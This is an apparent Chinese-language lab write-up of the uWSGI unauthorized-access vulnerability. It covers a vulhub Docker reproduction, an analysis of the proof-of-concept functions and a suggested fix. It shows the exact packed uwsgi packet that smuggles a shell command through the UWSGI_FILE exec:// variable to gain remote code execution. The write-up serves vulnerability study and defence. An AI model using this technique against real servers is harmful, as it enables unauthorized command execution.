

uWSGI 未授权访问漏洞
漏洞复现
启动Docker
1 | cd vulhub/uwsgi/unacc |
运行poc
1 | python poc.py -u [ip]:8000 -c "echo 111>/tmp/abc" |
进入Docker容器，查看文件是否被写入
1 | docker exec -it unacc_web_1 /bin/bash |
查看文件是否被写入

漏洞分析
到GitHub下载 uwsgi-2.0.15
这个漏洞有两个关键点
- uwsgi协议魔术变量 UWSGI_FILE，它可以指定一个本地文件，作为新的uWSGI应用
exec://伪协议，它可以读取执行系统命令的结果，也就是可以执行命令，参考 ‘@’魔法
将 exec:// 伪协议作为 UWSGI_FILE 变量的值，使用 uwsgi协议 发送给服务器，就可以实现任意代码执行
POC分析
POC的逻辑如下：
- 用户输入ip端口和要执行的命令
- curl函数将它们打包成字典，调用
ask_uwsgi()函数发送数据 ask_uwsgi()函数调用pack_uwsgi_vars()函数将数据转换为uwsgi格式pack_uwsgi_vars()函数调用sz()函数计算键值的长度
ask_uwsgi(addr_and_port, mode, var, body=’’)函数
1 | def ask_uwsgi(addr_and_port, mode, var, body=''): |
获取数据字典var，调用 pack_uwsgi_vars(var) 函数转换为uwsgi协议格式，发送给uwsgi服务器
pack_uwsgi_vars(var)函数
1 | def pack_uwsgi_vars(var): |
将数据字典var转换为uwsgi协议格式
转换后的数据如下
1 | b'\x00\xde\x00\x00\x0f\x00SERVER_PROTOCOL\x08\x00HTTP/1.1\x0e\x00REQUEST_METHOD\x03\x00GET\t\x00PATH_INFO\x08\x00/testapp\x0b\x00REQUEST_URI\x08\x00/testapp\x0c\x00QUERY_STRING\x00\x00\x0b\x00SERVER_NAME\x07\x001.2.3.4\t\x00HTTP_HOST\x07\x001.2.3.4\n\x00UWSGI_FILE#\x00exec://echo 111>/tmp/abc; echo test\x0b\x00SCRIPT_NAME\x08\x00/testapp' |
可以用这个方式理解
1 | uwsgi_packet_header = { |
sz(x)函数
1 | def sz(x): |
返回传入字符串的长度，用两个十六进制数字（小端）表示
s[::-1] 的作用是反转字符串，也就是将大端表示转换为小端表示
如何修复
在不更新uwsgi的情况下，我认为可以通过禁用 exec:// 伪协议和 UWSGI_FILE 魔术变量的方法来修复漏洞